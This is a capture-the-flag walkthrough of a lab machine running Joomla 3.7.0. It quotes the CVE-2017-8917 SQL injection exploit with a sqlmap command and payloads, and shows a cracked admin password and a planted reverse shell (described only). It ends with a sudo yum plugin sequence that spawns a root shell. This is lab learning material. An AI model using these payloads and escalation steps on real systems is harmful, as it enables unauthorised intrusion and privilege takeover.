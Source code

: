 ```yaml
---
sticker: emoji//1f577-fe0f
---
```

# ENUMERATION
---

## OPEN PORTS
---


| PORT | STATE | SERVICE |
| :--- | :---- | :------ |
| 22   | open  | ssh     |
| 80   | open  | http    |
| 3306 | open  | mysql   |

We got 3 open ports, let's take a look at the website:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121165122.png)

Seems like a simple website, let's try to fuzz in order to find anything, if not, I think that login part is interesting and we could go back to check any vulnerability in it

## FUZZING
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121165255.png)

We found a lot of directories, let's take a look at `/administrator`

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121170507.png)

Got a login page for admin in this, if we look around the page source, we are able to identify this is `Joomla 3.7.0`


# RECONNAISSANCE
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121170613.png)
Searching up for an exploit related to this version, we find this, a [[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/INJECTIONS/SQLI/SQL INJECTION (SQLI).md|SQL Injection]] vulnerability, let's take a look at the exploit itself:


```
# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917


URL Vulnerable: http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27


Using Sqlmap: 

sqlmap -u "http://localhost/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]


Parameter: list[fullordering] (GET)
    Type: boolean-based blind
    Title: Boolean-based blind - Parameter replace (DUAL)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(CASE WHEN (1573=1573) THEN 1573 ELSE 1573*(SELECT 1573 FROM DUAL UNION SELECT 9674 FROM DUAL) END)

    Type: error-based
    Title: MySQL >= 5.0 error-based - Parameter replace (FLOOR)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT 6600 FROM(SELECT COUNT(*),CONCAT(0x7171767071,(SELECT (ELT(6600=6600,1))),0x716a707671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a)

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 time-based blind - Parameter replace (substraction)
    Payload: option=com_fields&view=fields&layout=modal&list[fullordering]=(SELECT * FROM (SELECT(SLEEP(5)))GDiu)
    
```

We can either use sqlmap or an exploit developed in python, I used the exploit as it is way more easier to retrieve the data:

```ad-hint

#### Exploit 

[exploit](https://raw.githubusercontent.com/stefanlucas/Exploit-Joomla/master/joomblah.py
)

##### Output
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121171916.png)

We got the user `jonah` and a password in a hash formato, let's crack that hash using `john`

hash: `$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm`


#### John
----

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121174205.png)

got password `spiderman123`


```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121175307.png)

We are inside the panel, let's begin with exploitation to get our reverse shell

# EXPLOITATION
---


Once we are inside the panel, if we go to templates, we see the following:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121175454.png)

If we dig up further, we notice we are able to modify the `index.php` in order to put a reverse shell:



![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121175549.png)

Put the reverse shell, set up listener, refresh the page and get the shell:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121180244.png)

Once we got our shell, let's [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|stabilize]] it and try to get anything useful:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121180409.png)

We have now an stable shell, let's take a look at how many users are in this machine:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121180459.png)

Two users, `jjameson` and `root`, we need some sort of way to get jameson's password to switch into that user, if we take a look at previous pictures, we have a `configuration.php` file, let's `cat` on it:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121180633.png)

Nice, we found the password, let's switch users:


```ad-note

#### Credentials
---

`jjameson` : `nv5uz9r3ZEDzVjNu` 
```

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121180958.png)

Nice, we were able to switch users. Let's proceed with privilege escalation


# PRIVILEGE ESCALATION
---


## SUDO -L


If we use `sudo -l` on `jjameson`, we get the following:


![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121181128.png)

We are able to run sudo in `/usr/bin/yum`, if we check what [GTFOBINS](https://gtfobins.github.io/) have for us, we get this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121181231.png)

So, in order to get a root shell, we need to do the following:

```ad-summary

1. `TF=$(mktemp -d)`
2. `cat >$TF/x<<EOF`
3. `[main]`
4. `plugins=1`
5. `pluginpath=$TF`
6. `pluginconfpath=$TF`
7. `EOF`
8. `cat >$TF/y.conf<<EOF`
9. `[main]`
10. `enabled=1`
11. `EOF`
12. `cat >$TF/y.py<<EOF`
13. `import os`
14. `import yum`
15. `from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE`
16. `requires_api_version='2.1'`
17. `def init_hook(conduit):`
18. `  os.execl('/bin/sh','/bin/sh')`
19. `EOF`
20. `sudo yum -c $TF/x --enableplugin=y`

#### PoC
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121181849.png)

Got a shell as root and like that, CTF is over.

```


